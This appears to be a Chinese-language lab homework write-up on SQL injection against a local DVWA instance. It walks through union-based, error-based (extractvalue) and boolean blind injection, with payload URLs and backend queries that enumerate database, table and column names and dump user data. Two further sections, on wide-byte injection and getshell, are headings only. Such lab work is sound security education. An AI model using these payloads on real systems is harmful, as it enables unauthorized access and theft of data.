# 一、分别在前端和后端使用 Union 注入实现“dvwa 数据库 -user 表 - 字段 -first_name 数据”的注入过程，写清楚注入步骤。
## 1. 正常功能描述

此处为输入一个id，获取对应用户的 `First name` 和 `Surname`。
## 2. 验证是否存在注入的可能
```text
输入 `1'`
```
   

由此可见，此处可能存在注入点。

## 3. 构造第一个注入语句

```url
http://127.0.0.1:8081/vulnerabilities/sqli/?id=1%27%20union%20all%20select%201,2,3--%20&Submit=Submit#
```


## 4. 确认后台SQL语句字段的查询数量

```url
http://127.0.0.1:8081/vulnerabilities/sqli/?id=1%27%20union%20all%20select%201,2--%20&Submit=Submit#
```


## 5. 获取当前数据库名称

```url
http://127.0.0.1:8081/vulnerabilities/sqli/?id=1' union all select database(),2-- &Submit=Submit#
```
   

## 6. 获取当前数据库中的表名

```url
http://127.0.0.1:8081/vulnerabilities/sqli/?id=1' union all select table_name,2 from information_schema.tables where table_schema = database()-- &Submit=Submit#
```


## 7. 获取目标表（`users`）中的字段
```url
http://127.0.0.1:8081/vulnerabilities/sqli/?id=1' union all select column_name,2 from information_schema.columns where table_name = 'users'-- &Submit=Submit#
```



## 8. 获取目标字段（`first_name`）的数据
```url
http://127.0.0.1:8081/vulnerabilities/sqli/?id=1' union all select first_name,2 from users-- &Submit=Submit#
```


# 二、分别在前端和后端使用报错注入实现“dvwa 数据库 -user 表 - 字段”的注入过程，写清楚注入步骤，并回答下列关于报错注入的问题：
## 1. 在 extractvalue 函数中，为什么’~'写在参数 1 的位置不报错，而写在参数 2 的位置报错？
### 1.1 extractvalue 函数介绍
Extractvalue是一个MySQL的函数，它可以用于从XML数据中提取值，并将提取的结果作为一个字符串返回。使用该函数可以解析XML和XPath表达式，并从中提取所需的数据。它的语法如下：   

```sql
extractvalue(xml_document, xpath_expression)
```   

其中`xml_document`是一个XML类型的数据，可以是字符串、XML类型的字段或文档类型的对象。而`xpath_expression`则是要提取的值所在的`XPath`表达式。这个XPath表达式可以是绝对路径，也可以是相对路径。  

`XPath`路径表达式：   

|表达式|描述|
|---|---|
|nodename|选取此节点的所有子节点。|
|/|从根节点选取|
|//|从匹配选择的当前节点选择文档中的节点，而不考虑它们的位置。|
|.|选取当前节点|
|..|选取当前节点的父节点|
|@|选取属性|


下面做个简单的例子：
```sql
select extractvalue('<a><b>aaa</b></a>','/a/b');
```   

   

在第一个参数位构造了一个xml数据，然后第二个参数位指定获取路径`/a/b`下的数据，结果是 `aaa`。

### 1.2 为什么’~'写在参数 1 的位置不报错，而写在参数 2 的位置报错？
根据上面对 `extractvalue` 函数的了解，他的参数 1 的位置可以是字符串，XML类型的字段或文档类型的对象，当'~'在参数 1 的位置时，满足字符串的要求，所以并没有什么问题；但是如果将'~'放在参数 2 的位置时，'~'是一个非法的XPath路径表达式字符，所以会报错。

## 2. 报错注入中，为什么要突破单引号的限制，如何突破？
### 2.1 通过后台模拟执行的语句，查看在不做单引号突破的情况的执行结果
```sql
 SELECT first_name, last_name FROM users WHERE user_id = '1' union all select  extractvalue(1,'~database()');
```
   

通过执行结果可以看出，报错信息将 `'~database()'` 部分当做一个字符串来执行了，并没有执行其中的 `database()` 函数。
### 2.2 使用 `concat` 函数，进行拼接的方式，来突破单引号的限制
```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' union all select  extractvalue(1,concat('~',database()));
```
   

通过直接结果可以看出，`database()` 函数成功执行，获取到了当前的数据库。
## 3. 在报错注入过程中，为什么要进行报错，是哪种类型的报错？
此问题分为两个部分，一个是为什么要进行报错，另一个是哪种类型的报错。
### 3.1 为什么要进行报错？
需要进行报错的原因有：   
（1）从利用的场景来看，页面正常功能下，不会展示具体数据。   
（2）从切入点来看，后台服务器的错误会原样作为响应返回给页面。   
（3）综上所述，我们可以利用系统的报错信息，将我们想要的数据包含在报错信息中即可达到数据窃取的目的。
### 3.2 哪种类型的报错？
首先报错分为：语句报错和语法报错。   
* 语句报错：SQL语句拼写错误产生的报错。
* 语法报错：实在SQL语句执行过程中，因语法错误而产生的报错，例如：`extracvalue` 函数中的第二个参数使用了'~'，就是语法报错。   

# 三、任选布尔盲注或者时间盲注在前端和后端实现“库名 - 表名 - 列名”的注入过程，写清楚注入步骤。
## 1. 页面功能介绍
   
我们输入正确的id，页面会返回此id是否存在。
## 2. 进入镜像中的 mysql 终端
```shell
 docker ps
 # 进入容器
 docker exec -it b46aa71c2b31 bash
 # 进入 mysql 终端
 mysql
```

## 3. 按照页面功能，猜想后端语句可能如下：
```sql
 select * from users where user_id = 1;
```


## 4. 使用布尔盲注的方式，猜库名长度
### 4.1 后端
```sql
 select * from users where user_id = 1 and length((select database())) > 5;
```

| 后续使用二分法，猜出数据库长度   

| 可以得出数据库的长度为 4.   
### 4.2 前端
```url
 http://127.0.0.1:8081/vulnerabilities/sqli_blind/?id=1' and length((select database())) > 5 -- &Submit=Submit#
```

```url
http://127.0.0.1:8081/vulnerabilities/sqli_blind/?id=1' and length((select database())) > 3 -- &Submit=Submit#
```

| 最终得出数据库的长度为4。   
## 5. 使用`ASCII`编码，爆破库名
### 5.1 函数使用
```sql
 select substr((select database()),1,1);
```

```sql
 select ascii(substr((select database()),1,1));
```

### 5.2 后端，爆破库名
```sql
 select * from users where user_id = 1 and ascii(substr((select database()),1,1)) > 200;
```


| 参考ascii码对照表可以得出，数据库的第一个字母为`d`。后续只需要调整`substr`中第二个参数，即可进行后续字母的爆破。


| 最终得出数据库的名称为`dvwa`。   
### 5.3 前端，爆破库名
如后端爆破过程一样，构造如下地址后，对库名进行爆破：
```url
http://127.0.0.1:8081/vulnerabilities/sqli_blind/?id=1' and ascii(substr((select database()),1,1)) = 100 -- &Submit=Submit#
```


| 最终得出数据库的名称为`dvwa`。   

## 6. 爆破表名长度
```sql
 select length((select table_name from information_schema.tables where table_schema = 'dvwa' limit 1));
```

| 通过调整 `limit` 逐个爆破表名   
### 6.1 后端
```
 select * from users where user_id = 1 and length((select table_name from information_schema.tables where table_schema = 'dvwa' limit 1)) > 10;
```

| 第一个表名的长度为 9   
### 6.2 前端
```url
 http://127.0.0.1:8081/vulnerabilities/sqli_blind/?id=1' and length((select table_name from information_schema.tables where table_schema = 'dvwa' limit 1)) > 10 -- &Submit=Submit#
```


```url
 http://127.0.0.1:8081/vulnerabilities/sqli_blind/?id=1' and length((select table_name from information_schema.tables where table_schema = 'dvwa' limit 1)) = 9 -- &Submit=Submit#
```

| 第一个表名的长度为 9 ，后面按照这个语句，不断调整limit，来逐个获取表名的长度，然后逐个进行爆破。   
## 7. 爆破表名
```sql
 select substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 1),1,1);
```
   
### 7.1 后端
```sql
 select * from users where user_id = 1 and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 1),1,1)) > 100;
```


| 第一张表名字的第一个字符为 `g`,按照这个方法，不断调整`substr`函数的第二个参数，对表名字符进行逐个爆破。   
### 7.2 前端
```url
 http://127.0.0.1:8081/vulnerabilities/sqli_blind/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 1),1,1)) > 200 -- &Submit=Submit#
```

```url
 http://127.0.0.1:8081/vulnerabilities/sqli_blind/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 1),1,1)) = 103 -- &Submit=Submit#
```


| 第一张表名字的第一个字符为 `g`,按照这个方法，不断调整`substr`函数的第二个参数，对表名字符进行逐个爆破，第一张表爆破完成之后，重复第6和第7步骤对数据库中的所有表的名称进行爆破。   
## 8. 爆破字段名长度
```sql
 select length((select column_name from information_schema.columns where table_name = 'users' limit 1));
```

### 8.1 后端
```sql
 select * from users where user_id = 1 and length((select column_name from information_schema.columns where table_name = 'users' limit 1)) = 7;
```

| `users`中第一个字段的长度为 7.调整 `limit` 对 `users`表中的字段长度逐个进行爆破。
### 8.2 前端
```url
 http://127.0.0.1:8081/vulnerabilities/sqli_blind/?id=1' and length((select column_name from information_schema.columns where table_name = 'users' limit 1)) > 10 -- &Submit=Submit#
```

```url
 http://127.0.0.1:8081/vulnerabilities/sqli_blind/?id=1' and length((select column_name from information_schema.columns where table_name = 'users' limit 1)) = 7 -- &Submit=Submit#
```

| `users`中第一个字段的长度为 7.调整 `limit` 对 `users`表中的字段长度逐个进行爆破。

## 9. 爆破字段名
```sql
select substr((select column_name from information_schema.columns where table_name = 'users' limit 1),1,1);
```

### 9.1 后端
```sql
 select * from users where user_id = 1 and ascii(substr((select column_name from information_schema.columns where table_name = 'users' limit 1),1,1)) = 117;
```


| `users`中第一个字段名称的第一个字符为 `u`。后续不断调整`substr`函数中的第二个参数，即可完成字段名称的爆破。
### 9.2 前端
```url
 http://127.0.0.1:8081/vulnerabilities/sqli_blind/?id=1' and ascii(substr((select column_name from information_schema.columns where table_name = 'users' limit 1),1,1)) > 200 -- &Submit=Submit#
```

```url
http://127.0.0.1:8081/vulnerabilities/sqli_blind/?id=1' and ascii(substr((select column_name from information_schema.columns where table_name = 'users' limit 1),1,1)) = 117 -- &Submit=Submit#
```

| `users`中第一个字段名称的第一个字符为 `u`。后续不断调整`substr`函数中的第二个参数，即可完成字段名称的爆破。
# 四、利用宽字节注入实现“库名 - 表名 - 列名”的注入过程，写清楚注入步骤。
# 五、利用 SQL 注入实现 DVWA 站点的 Getshell，写清楚攻击步骤。